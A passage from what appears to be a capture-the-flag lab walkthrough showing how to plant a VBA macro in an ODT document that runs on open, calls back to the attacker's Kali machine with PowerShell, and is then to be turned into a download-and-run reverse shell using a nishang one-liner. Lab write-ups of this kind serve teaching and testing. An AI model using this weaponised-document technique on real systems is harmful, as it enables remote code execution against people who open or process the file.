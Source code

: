 Basic Macros Menu

Let's leave the Name as "Module1" and click "OK".

In the new window, we need to add our vba code to the panel on the right between `Sub Main` and `End Sub`. To test, let's just add a simple web request back to our kali machine.

```vb
Sub Main
    Shell("cmd /c powershell iwr 192.168.118.14")
End Sub
```

![Adding VBA Code](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG-Practice_86_image_4_KMyPBPG3.png)

Adding VBA Code

Let's click the save icon on the top menu and close this window.

Next, we will need to create a trigger to execute our code. From the top menu, let's click on "Tools" and then "Customize...". In the new window that appears, we click the "Events" tab. Let's choose "Open Document" from the main panel and click the "Macro..." button on the right side.

![Choosing Macro Trigger](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG-Practice_86_image_5_G6ptMddD.png)

Choosing Macro Trigger

In the Macro Selector window, we need to click the "**+**" symbol next to our document under "Library", then click the **+** next to "Standard". Let's select our "Module1" and make sure "Main" is selected on the "Macro Name" panel.

![Choosing Our Macro to Trigger](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG-Practice_86_image_6_HLfEiWq9.png)

Choosing Our Macro to Trigger

Finally, let's click the "OK" button on both open windows and save the document.

In a Kali terminal, let's start a python webserver on port 80 to catch the request from our macro.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Back in the browser, let's upload our new macro-infused ODT file to the website.

After a few seconds, we have a connection to out python webserver.

```
192.168.120.63 - - [20/Oct/2021 15:29:57] "GET / HTTP/1.1" 200 -
```

This shows us that we are indeed able to execute code through a macro in an uploaded ODT file.

To use this RCE vector to get a shell, we can create an ODT file that will download a PowerShell payload from our python webserver and execute it.

For the PowerShell payload, we can use a reverse shell one-liner from [nishang](https://github.com/samratashok/nishang) at https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1
